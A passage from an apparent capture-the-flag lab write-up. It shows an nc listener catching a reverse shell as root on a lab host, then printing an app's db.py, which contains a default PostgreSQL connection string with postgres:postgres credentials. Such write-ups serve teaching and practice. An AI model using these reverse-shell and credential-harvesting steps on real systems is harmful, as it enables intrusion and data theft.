 * We get the reverse connection with pwncat but fils on jumping to the session

![image](./assets/img/mentor-burpsuite12.png)

* But using _nc_ works and we get the reverse shell

``` bash
❯ nc -lnvp 8000
Connection from 10.10.11.193:32869
/bin/sh: can't access tty; job control turned off
/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/app # 

```
* We find something interesting app/ directory

``` bash
/app/app # cat db.py
import os

from sqlalchemy import (Column, DateTime, Integer, String, Table, create_engine, MetaData)
from sqlalchemy.sql import func
from databases import Database

# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")

# SQLAlchemy for quotes
engine = create_engine(DATABASE_URL)
metadata = MetaData()
quotes = Table(
    "quotes",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("title", String(50)),
    Column("description", String(50)),
    Column("created_date", DateTime, default=func.now(), nullable=False)
)

```